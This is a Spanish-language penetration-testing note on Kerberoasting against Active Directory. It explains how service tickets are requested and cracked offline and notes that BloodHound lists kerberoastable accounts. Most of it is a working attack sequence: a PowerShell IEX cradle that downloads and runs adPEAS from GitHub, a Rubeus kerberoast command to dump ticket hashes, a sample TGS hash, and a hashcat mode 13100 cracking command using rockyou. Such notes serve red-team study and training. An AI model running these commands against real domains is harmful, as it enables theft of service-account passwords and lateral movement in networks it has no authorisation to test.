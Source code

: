 # Kerberoasting 

Tags: #AD #Kerberoasting #Rubeus  #BloodHound #ADPeas  #HashCat #Powershell #Windows 

El "Kerberoasting" es una técnica utilizada por atacantes para extraer tickets de servicio de Kerberos en Active Directory y descifrarlos fuera de línea, con el objetivo de obtener contraseñas en texto claro de cuentas de servicio. Este ataque aprovecha configuraciones débiles, como contraseñas poco seguras en cuentas de servicio, y representa una vulnerabilidad significativa en entornos de AD, dado que no genera alertas inmediatas al realizarse el descifrado fuera de la red.

```bash 
# Funcionamiento 

1. Ticket de Servicio: En Kerberos, cuando un usuario quiere acceder a un servicio, solicita un ticket de servicio (TGS, Ticket Granting Service). Este ticket está cifrado con la contraseña de la cuenta de servicio del recurso al que el usuario quiere acceder.
    
2. Extracción: Un atacante no necesita privilegios especiales en el dominio para solicitar un ticket de servicio para cualquier cuenta de servicio. Una vez que el atacante tiene el ticket, puede exportarlo y llevarlo a otro lugar para intentar descifrarlo.
    
3. Descifrado: El atacante intentará descifrar el ticket fuera de línea utilizando herramientas de fuerza bruta o diccionarios. Si la contraseña de la cuenta de servicio es débil, el atacante podría descifrarla en un tiempo razonable.
    
4. Compromiso: Una vez que el atacante tiene la contraseña en texto claro de la cuenta de servicio, puede usarla para acceder a recursos o moverse lateralmente en la red.
```

## Detectar con BloodHound

```bash 
Para detectar posibles vectores de ataque relacionados al Kerberoasting en BloodHound simplemente ejecutamos la siguiente consulta:

	* 'List all Kerberoastable Accounts' en la pestaña de 'Analisys'
```

## Obtener Hash con ADPeas

```bash 
# Ejemplo de un hash 'Kerberoasteable'
❯ $krb5tgs$23$*roast.user$domain1.corp$MSSQL/sql.domain1.corp*$A8DDCBEA1C6AEFE971C4BA672CBC9F32$8D3...

Nota: 
	1. Guardar el Hash en una sola linea en un documento .txt
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```

##  Rubeus

```bash 
1. Solicitar Tickets Kerberos (TGTs): Rubeus puede solicitar Ticket Granting Tickets (TGTs) utilizando contraseñas, hashes o incluso claves.
    
2. Kerberoasting: Rubeus es capaz de solicitar Ticket Granting Service (TGS) tickets para cuentas de servicio y luego intentar descifrar estos tickets fuera de línea para obtener contraseñas en texto claro, una técnica conocida como Kerberoasting.
    
3. Overpass (Pass-the-Ticket): Rubeus puede realizar ataques de "Overpass", donde los TGTs son utilizados para autenticarse en otros sistemas sin conocer la contraseña del usuario.
    
4. Ticket Renewal: Puede renovar tickets válidos que aún estén dentro de su período de renovación.
    
5. Dumping Tickets: Rubeus puede extraer tickets de la memoria y almacenarlos para su uso o análisis posterior.
    
6. Manipulación de Tickets: Puede purgar, renovar e incluso falsificar tickets de Kerberos.
    
7. Hunting de Tickets: Rubeus puede buscar en la red tickets específicos que proporcionen acceso a ciertos recursos o que posean ciertos privilegios.
    
8. Ataques de Fuerza Bruta: Puede intentar fuerza bruta contra cuentas de usuario con el objetivo de obtener un TGT.
```

* [Rubeus](https://github.com/GhostPack/Rubeus)

```bash 
❯ ./Rubeus.exe kerberoast        # Obtener el hash de un usuario kerberosteable 

Nota:
	1. Guardar el Hash en una sola linea en un documento .txt
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 hash-kerberoasting /usr/share/wordlists/rockyou.txt --force

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```